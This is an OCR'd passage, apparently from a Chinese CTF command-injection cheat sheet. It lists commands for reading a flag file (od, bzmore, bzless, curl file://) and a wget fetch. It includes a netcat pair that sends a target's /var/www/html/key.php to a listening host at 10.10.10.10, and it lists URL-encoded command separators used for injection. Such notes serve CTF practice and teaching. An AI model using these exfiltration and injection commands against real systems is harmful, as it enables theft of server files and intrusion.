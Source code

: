 ```bash
od -a ./flag.txt
```

\#输出结果：

```ini
0000000 f l a g { t h i s _ i s _ a _ t0000020 e s t }0000024
```

### bzmore读取文件:

```bash
bzmore ./flag.txt
```

### bzless读取文件：

```bash
bzless ./flag.txtecho `bzless ./flag.txt`
```

\#输出结果：

```ini
------> ./flag.txt <------ flag{this_is_a_test} 
```

### curl读取文件：

```bash
curl file:///home/coffee/flag
```

**nc 传输文件**

靶机：

```bash
nc 10.10.10.10 4444 < /var/www/html/key.php
```

接受机：

```bash
nc -l 4444 > key.txt
```

### wget操作进行目标读取

```bash
wget url -P path
```

## 一些命令分隔符

### 常见分隔符

linux中：%0a 、%0d 、; 、& 、| 、&&、||
